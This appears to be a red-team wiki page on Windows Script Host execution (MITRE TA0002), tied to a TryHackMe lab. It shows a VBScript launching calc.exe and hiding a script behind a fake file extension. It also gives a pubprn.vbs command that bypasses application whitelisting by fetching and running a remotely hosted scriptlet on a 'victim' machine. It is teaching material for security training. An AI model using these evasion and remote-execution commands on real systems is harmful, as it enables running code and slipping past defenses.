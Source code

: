 ```yaml
---
description: MITRE ATT&CK™ Technique TA0002
---
```

# Windows Scripting Host (WSH)

## Theory

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system. It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe.

## Practice


{% tabs %}

{% tab title="Basic Usage" %}
let's use the VBScript to run executable files. The following vbs code is to invoke the Windows calculator, proof that we can execute .exe files using the Windows native engine (WSH).

```bash
#openCalc.vbs
Set shell = WScript.CreateObject("Wscript.Shell")
shell.Run("C:\Windows\System32\calc.exe " & WScript.ScriptFullName),0,True
```

We can now execute the vbs script on the target machine
```bash
cscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
wscript.exe c:\Users\Veresk\Desktop\openCalc.vbs
```

{% hint style="success" %}
A trick is to change the .vbs extension by a randomly choosen one.
{% endhint %}

```bash
wscript.exe /e:VBScript c:\Users\Veresk\Desktop\openCalc.odt
```
{% endtab %}

{% tab title="pubprn.vbs" %}
{% hint style="info" %}
Signed Script Proxy Execution - bypass application whitelisting using pubprn.vbs
{% endhint %}
Using [pubprn.vbs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-r2-and-2012/cc753116(v=ws.11)), we will execute code to launch calc.exe. First of, the xml that will be executed by the script:

```bash
#http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
<?XML version="1.0"?>
<scriptlet>

<registration
    description="Bandit"
    progid="Bandit"
    version="1.00"
    classid="{AAAA1111-0000-0000-0000-0000FEEDACDC}"   
	>
</registration>

<script language="JScript">
<![CDATA[
		var r = new ActiveXObject("WScript.Shell").Run("calc.exe");	
]]>
</script>

</scriptlet>
```
On the victime computer:
```bash
cscript /b C:\Windows\System32\Printing_Admin_Scripts\en-US\pubprn.vbs 127.0.0.1 script:http://192.168.2.71/tools/mitre/proxy-script/proxy.sct
```


{% endtab %}

{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/weaponization" %}
